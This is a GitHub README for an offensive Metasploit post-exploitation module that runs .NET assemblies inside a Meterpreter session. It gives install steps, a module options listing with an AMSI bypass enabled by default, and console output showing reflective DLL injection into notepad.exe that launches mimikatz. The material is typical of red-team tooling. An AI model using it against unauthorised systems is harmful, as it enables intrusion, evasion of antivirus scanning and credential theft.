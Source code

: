 # Execute assembly via Meterpreter session

This is a custom Metasploit post module to executing a .NET Assembly from Meterpreter session

This project target

Windows 10 64bit<br />
.Net 4.0<br />
Metasploit Framework 5<br />

It spawn a notepad.exe process and use Reflective dll injection to load HostingCLRx64.dll needed to run .Net assembly

You'll find details at [Execute assembly via Meterpreter session](https://b4rtik.blogspot.com/2018/12/execute-assembly-via-meterpreter-session.html)

## Install

Create $HOME/.msf4/modules/post/windows/manage<br />
Copy execute-assembly.rb in $HOME/.msf4/modules/post/windows/manage/<br />
Create $HOME-METASPLOIT-DATADIR/execute-assembly<br />
Copy HostingCLRx64.dll in $HOME-METASPLOIT-DATADIR/post/execute-assembly/<br /> 

## Note

The signature of the Main method must match with the parameters that have been set in the module, for example:

If the property ARGUMENTS is set to "antani sblinda destra" the main method should be "static void main (string [] args)"<br />
If the property ARGUMENTS is set to "" the main method should be "static void main ()"

## Module options and execution

```
msf post(windows/manage/execute-assembly) > options 

Module options (post/windows/manage/execute-assembly):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   AMSIBYPASS    true             yes       Enable Amsi bypass
   ARGUMENTS                      no        Command line arguments
   ASSEMBLY                       yes       Assembly file name
   ASSEMBLYPATH                   no        Assembly directory
   PID           0                no        Pid  to inject
   PROCESS       notepad.exe      no        Process to spawn
   SESSION                        yes       The session to run this module on.
   WAIT          10               no        Time in seconds to wait

msf post(windows/manage/execute-assembly) > 
```

```
msf post(windows/manage/execute-assembly) > exploit 

[*] Launching notepad to host CLR...
[+] Process 4708 launched.
[*] Reflectively injecting the Host DLL into 4708...
[*] Injecting Host into 4708...
[*] Host injected. Copy assembly into 4708...
[*] Assembly copied. Executing...
[*] Start reading output
[+] 
[+]   .#####.   mimikatz 2.1.1 (x64) built on Oct 22 2018 16:32:27
[+]  .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
[+]  ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
[+]  ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
[+]  '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
[+]   '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/
[+] 
[+] mimikatz(powershell) # coffee
[+] 
[+]     ( (
[+]      ) )
[+]   .______.
[+]   |      |]
[+]   \      /
[+]    `----'
[+] 
[*] End output.
[+] Killing process 4708
[+] Execution finished.
[*] Post module execution completed
msf post(windows/manage/execute-assembly) >
```
